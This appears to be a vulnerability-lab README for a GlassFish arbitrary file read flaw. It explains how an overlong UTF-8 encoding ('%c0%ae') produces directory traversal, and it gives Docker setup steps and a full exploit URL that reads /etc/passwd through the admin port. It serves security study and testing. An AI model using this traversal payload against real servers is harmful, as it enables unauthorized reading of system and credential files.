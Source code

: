 # GlassFish Arbitrary File Read Vulnerability

## Principle

Reference article: https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904

The java language will parse `%c0%ae` to `\uC0AE` and finally escape the `.` (dot) of the ASCCII character. Use `%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/` to jump up to achieve directory traversal and arbitrary file reading.

## Vulnerability recurrence

Compile and run the test environment

```
Docker-compose build
Docker-compose up -d
```

After the environment is running, visit `http://your-ip:8080` and `http://your-ip:4848` to view the web page. Among them, port 8080 is the website content, and port 4848 is the GlassFish management center.

Visit `https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae% C0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/% C0%ae%c0%ae/etc/passwd`, found that the `/etc/passwd` content has been successfully read:

![](1.png)

## Extra instructions

This environment super administrator password is set in `docker-compose.yml`, the default is `vulhub_default_password`, which can be used to log in to the administrator account on port 4848.